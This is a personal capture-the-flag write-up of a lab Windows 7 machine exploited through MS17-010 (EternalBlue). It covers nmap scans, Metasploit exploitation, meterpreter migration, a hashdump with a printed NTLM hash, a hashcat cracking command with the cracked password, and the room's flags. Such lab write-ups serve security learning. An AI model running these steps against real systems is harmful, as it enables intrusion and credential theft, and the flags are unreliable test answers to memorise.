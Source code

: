 # ETERNAL BLUE EXPLOIT

#####

#####

<p>Scan with nmap <p>
<p>
	/// nmap output
	Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-21 20:13 GMT
Nmap scan report for 10.10.242.168
Host is up (0.038s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2021-02-21T20:14:53+00:00; 0s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h30m00s, deviation: 2h59m59s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:77:f6:09:71:6b (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-02-21T14:14:47-06:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-21T20:14:48
|_  start_date: 2021-02-21T20:10:29

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.70 seconds </p>

#####

Re run nmap with --script vuln to find vulnerablities


#####Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-21 20:18 GMT
Nmap scan report for 10.10.242.168
Host is up (0.038s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp   open  netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp   open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
3389/tcp  open  ms-wbt-server
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
49152/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49153/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49154/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49158/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49159/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 97.85 seconds

#####

Is vulnerable to MS17-010 (EternalBlue) - some other vulnerablities were found but as this room relates to eternal blue this is obviously the right one.

#####

#####

Logging into a remote Kali Machine was required, for some reason i could not get reverse handler to work properly on Ubuntu

Search ms17-010

Use /windows/smb/ms10_010_eternalblue

set RHOSTS - target

exploit

I'm in

#####

#####

use shell_to_meterpreter

set sessions to be the session that we are using

ps to list processes

migrate to another process. Apparently winlogon.exe seems to be pretty stable on Windows so I'll use that

#####

hashdump

JONS password = Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

Cracking Jons password using hashcat

'''
hashcat -a0 -m1000 ffb43f0de35be4d9917ac0cc8ad57f8d /home/gabriel/Documents/rockyou.txt
'''

Jons password alqfna22
#####

Flag1 = flag{access_the_machine} located at the C drive

Flag2 = flag{sam_database_elevated_access} located where windows stores passwords /windows/system32/config

Flag3 = flag{admin_documents_can_be_valuable} in the Documents folder.
